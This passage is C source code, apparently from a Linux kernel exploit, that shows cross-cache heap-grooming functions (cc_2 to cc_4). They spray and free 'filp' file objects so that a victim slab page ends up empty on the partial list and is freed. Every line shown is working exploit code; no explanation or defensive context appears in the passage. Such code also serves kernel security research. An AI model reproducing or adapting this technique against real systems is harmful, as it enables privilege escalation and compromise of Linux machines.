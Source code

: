 ```
    return;
}

// Cross-cache 2:
// Allocate OBJS_PER_SLAB to *probably* create a new active slab
void cc_2(void)
{
    // Step 2:
    // Allocate OBJS_PER_SLAB to *probably* create a new active slab
    uint64_t spray_amt = OBJS_PER_SLAB - 1;
    g_cc2_num = spray_amt;

    //info("Spraying %lu `filp` objects...", spray_amt);
    for (uint64_t i = 0; i < spray_amt; i++)
    {
        g_cc2_fds[i] = get_test_fd(0);
    }
    usleep(100000);

    return;
}

// Cross-cache 3:
// Allocate enough objects to definitely fill the rest of the active slab
// and start a new active slab
void cc_3(void)
{
    uint64_t spray_amt = OBJS_PER_SLAB + 1;
    g_cc3_num = spray_amt;

    //info("Spraying %lu `filp` objects...", spray_amt);
    for (uint64_t i = 0; i < spray_amt; i++)
    {
        g_cc3_fds[i] = get_test_fd(0);
    }
    usleep(100000);

    return;
}

// Cross-cache 4:
// Free all the filps from steps 2, and 3. This will place our victim 
// page in the partial list completely empty
void cc_4(void)
{
    //info("Freeing `filp` objects from CC2 and CC3...");
    for (size_t i = 0; i < g_cc2_num; i++)
    {
        close(g_cc2_fds[i]);
    }

    for (size_t i = 0; i < g_cc3_num; i++)
    {
        close(g_cc3_fds[i]);
    }
    usleep(100000);

    return;
}

// Cross-cache 5:
// Free an object for each slab we allocated in Step 1 to overflow the 
// partial list and get our empty slab in the partial list freed
```